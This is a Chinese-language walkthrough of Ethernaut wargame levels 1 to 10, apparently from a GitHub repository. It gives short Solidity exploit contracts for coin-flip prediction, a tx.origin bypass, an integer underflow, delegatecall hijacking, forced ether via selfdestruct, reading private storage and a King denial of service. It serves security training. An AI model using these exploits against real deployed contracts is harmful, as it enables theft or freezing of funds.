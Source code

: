 # Writeup(31)
## 1.Hello Ethernaut

跟着返回的提示调用合约函数

![](../images/a-ethnaut-1-1.png)

## 2.Fallback
1. 调用contribute函数捐款小于0.001e的数额, getContribution函数返回值大于0
2. 发送任意数额的eth调用fallback函数, owner改为当前账户
3. 调用withdraw提取所有金额

## 3.Fallout

Fal1out并不是构造函数, 手动调用即可

注意:Solidity合约构造函数不能和合约名一样

## 4.Coin Flip
编写合约代码, 提前计算结果, 在不同的区块下调用guess函数10次
```solidity
contract Guess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip x = CoinFlip(0x7B588F9C807501337AFa5AeF3945bd18FdAF9CbF);
    function guess() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        x.flip(side);
    }
}
```
## 5.Telephone
tx.origin是交易的发起者, msg.sender是当前函数的调用者
编写hack合约, 通过合约调用changeOwner函数
```solidity
contract Hack {
    constructor() {
        Telephone t = Telephone(0x35B2bAb61Ee13B9256811B693AA054Ad1dd016Ec);
        t.changeOwner(0x3E9436324544C3735Fd1aBd932a9238d8Da6922f);
    }
}
```
## 6. Token
向任意地址发送21单位的token
```solidity
// 直接操作uint256变量减法会有溢出问题
require(balances[msg.sender] - _value >= 0);
```
## 7.Delegation
利用下面的代码完成代理调用
```solidity
(bool result,) = address(delegate).delegatecall(msg.data);
```
向Delegation合约发送0eth, tx的data部分为pwn的方法id

## 8. Force
使用selfdestruct销毁自建合约, 向目标合约发送eth
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        selfdestruct(0x888Eaa51Cd5E643DFc19b594DA803362c5265B7b);
    }
}
```
## 9. Vault
使用函数w3.eth.get_storage_at读取对应slot值, 获取password, 调用unlock函数解锁

## 10. King
使用合约向目标合约转0.001eth, 成为新的king, 其他人再尝试获得king会因为transfer不成功而失败
注意要使用低级调用call函数, 当调用数据为空时, 会自动调用目标合约的receive函数
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        (bool success, ) = 0xaD5Ae7Ec24Ae99e2971F5f0D5c21DCBe24189962.call{value:msg.value}("");
        require(success, "failed");
    }
}
```
